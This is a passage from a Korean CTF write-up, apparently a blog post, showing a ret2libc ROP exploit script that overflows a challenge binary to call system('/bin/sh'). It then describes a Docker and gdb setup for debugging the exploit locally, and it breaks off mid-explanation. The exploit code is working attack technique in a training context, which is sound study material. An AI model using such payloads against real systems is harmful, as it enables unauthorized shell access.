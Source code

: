 ```python
system_addr   = libc_base + system_offset
binsh_addr    = libc_base + binsh_offset
pop_rdi_ret   = libc_base + pop_rdi_ret_offset
ret           = libc_base + ret_offset

payload = b'A' * 376
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(ret)
payload += p64(system_addr)

p.send(payload)
pause()

p.interactive()
```

이렇게 되는데,

결과적으로 이 방법은 실패했다.(결국 성공해서 밑에 내용 추가...) 

---

### 실패 원인 분석 방법(환경)

그래서 원인분석을 해야했는데, 까먹을 수 있으니까

docker서버에 익스를 보내고 gdb로 attach 하는 과정 기록

```python
FROM pwn.red/jail
COPY --from=ubuntu / /srv
ENV JAIL_CPU=100 JAIL_MEM=20M JAIL_TIME=30 JAIL_CONNS_PER_IP=1
COPY chall /srv/app/run
COPY flag.txt /srv/
```

제공된 Docerfile에 JAIL_TIME이 30초로 되어있어 30초마다 실행이 종료되므로 이를 3000으로 수정 후 진행하였다.

‘/jail/run’으로 인한 권한문제 때문에 --privileged 모드로 생성하였다.

```bash
docker run --rm -it --privileged --name leakpwncon -p 16004:5000 leakpwn
```

터미널 하나에 이렇게 입력해두고 계속 켜두면 서버는 계속 켜져있으므로 익스를 시도할 수 있다.

```bash
p = remote('localhost', 16004)
```

도커 서버를 열어두면 열어둔 포트로 remote를 통해 익스를 보낼 수 있는데,

원하는 부분에

```bash
pause()
```
